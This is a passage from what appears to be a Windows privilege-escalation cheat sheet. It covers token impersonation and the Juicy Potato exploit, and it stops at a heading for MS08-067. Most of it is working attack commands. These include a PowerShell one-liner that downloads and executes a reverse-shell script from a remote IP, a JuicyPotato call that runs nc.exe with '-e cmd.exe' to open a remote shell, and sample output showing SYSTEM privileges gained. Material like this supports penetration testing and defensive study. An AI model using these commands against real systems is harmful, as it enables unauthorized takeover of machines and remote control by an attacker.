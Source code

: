 ```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

### Juicy Potato (abusing the golden privileges)

Binary available at : https://github.com/ohpe/juicy-potato/releases
:warning: Juicy Potato doesn't work on Windows Server 2019 and Windows 10 1809
+.

1. Check the privileges of the service account, you should look for
   **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after
   authentication)

   ```powershell
   whoami /priv
   ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique
   identifier that identifies a COM class object

   - [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
   - [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
   - [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
   - [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
   - [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
   - [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
   - [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)

3. Execute JuicyPotato to run a privileged command.

   ```powershell
   JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
   JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
   JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
       Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
       ......
       [+] authresult 0
       {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
       [+] CreateProcessWithTokenW OK
   ```

## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.
